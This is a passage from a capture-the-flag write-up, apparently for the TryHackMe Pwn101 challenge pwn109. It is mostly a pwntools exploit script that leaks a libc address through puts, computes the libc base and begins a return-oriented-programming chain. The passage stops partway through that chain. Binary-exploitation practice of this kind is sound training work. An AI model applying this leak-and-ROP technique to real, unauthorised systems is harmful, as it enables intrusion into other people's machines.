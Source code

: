 ![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2052.png)

We gonna download this libc and use it. We write our exploit and done.

```python
import sys
from pwn import *
from struct import *

exe = './pwn109.pwn109'
binary = context.binary = ELF(exe,checksec=False)

libc = ELF("libc6_2.27-3ubuntu1.4_amd64.so")
# libc = binary.libc # use it locally

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

io = start()

RET = 0x40101a   # for stack alignment
POP_RDI = 0x4012a3

exploit = b""
exploit += b"\x90"*40
exploit += p64(RET)
exploit += p64(POP_RDI)

exploit += p64(binary.got['puts'])  # the address of got puts is the parameter
exploit += p64(binary.plt['puts'])  # call puts via plt
exploit += p64(binary.sym['main'])  # return address (will be popped into eip when printf returns)

io.recvuntil(b'Go ahead \xf0\x9f\x98\x8f')
data = io.recvline()
io.sendline(exploit)

puts_leak = u64(io.recv(6) + b'\x00\x00')

# log.success(f'LIBC base: {hex(puts_leak)}') # uncomment this to detect target's libc version

libc.address = puts_leak - libc.sym['puts'] # comment this when you try to find libc version
log.success(f'LIBC base: {hex(libc.address)}') # comment this when you try to find libc version

rop = ROP(libc)
rop.call(rop.ret)     # Stack align with extra 'ret' to deal with movaps issue
```